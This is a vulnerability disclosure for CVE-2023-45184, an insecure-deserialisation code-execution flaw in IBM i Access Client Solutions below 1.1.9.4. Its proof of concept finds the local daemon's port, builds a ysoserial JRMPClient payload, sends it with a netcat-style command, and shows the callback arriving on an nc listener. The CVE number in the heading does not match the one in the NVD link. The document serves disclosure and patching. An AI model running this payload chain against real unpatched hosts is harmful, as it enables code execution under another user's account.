 # CVE-2023-45184
IBM i Access Client Solutions < 1.1.9.4 - Remote code execution via insecure deserialisation.

## Timeline
- Vulnerability reported to vendor: 22.09.2023
- New fixed 1.1.9.4 version released: 08.12.2023
- Public disclosure: 15.12.2023

## Description

IBM i Access Client Solutions uses insecure deserialisation for password storage and obtaining decryption key for password encryption. This could be used by local or remote attacker to execute code. 

The local server can be easily found using the `netstat` command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ netstat -nltp | grep java
tcp6       0      0 :::34307                :::*                    LISTEN      3225094/java         off (0.00/0/0)
```

We can confirm details about this local server using the `ps` command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ ps aux | grep java
mmajchr+ 3224938  6.8  0.9 13305316 301392 pts/6 Sl+  12:30   0:17 java -jar ./acsbundle_1.9.new.jar
mmajchr+ 3225094  0.3  0.2 11512420 79692 pts/6  Sl+  12:30   0:00 /usr/lib/jvm/java-17-openjdk-amd64/bin/java -Djava.class.path=/tmp/ACS.lm13910263510749358977.jar -Dvisualvm.display.name=ACS Daemon -Dcom.ibm.tools.attach.displayName=ACS Daemon com.ibm.iaccess.base.LmHybridServerImpl
mkubiak  3238934  0.0  0.0   6464  1992 pts/12   R+   12:44   0:00 grep --color=auto java
```

We can achieve code execution by the user `mmajchrowicz` using the `ysoserial` payload from the `mkubiak` account:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ id
uid=1012(mkubiak) gid=1012(mkubiak) groups=1012(mkubiak),27(sudo)

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ java -jar ysoserial.jar JRMPClient '127.0.0.1:9191' > jrmp.bin

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ (sleep 3; cat jrmp.bin) | nat -6 ::1 34307 

```

In second terminal we will receive connection after execution of payload by service:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ nc -lvnp 9191
listening on [any] 9191 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38012
JRMIK

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$
```

This problem was caused by an insecure deserialisation of network packets and user data. This issue is fixed in IBM i Access Client Solutions 1.1.9.4.

## Affected versions
< 1.1.9.4

## Advisory
Update IBM i Access Client Solutions to 1.1.9.4 or newer.

### References
* https://www.ibm.com/support/pages/node/7091942
* https://nvd.nist.gov/vuln/detail/CVE-2023-45185
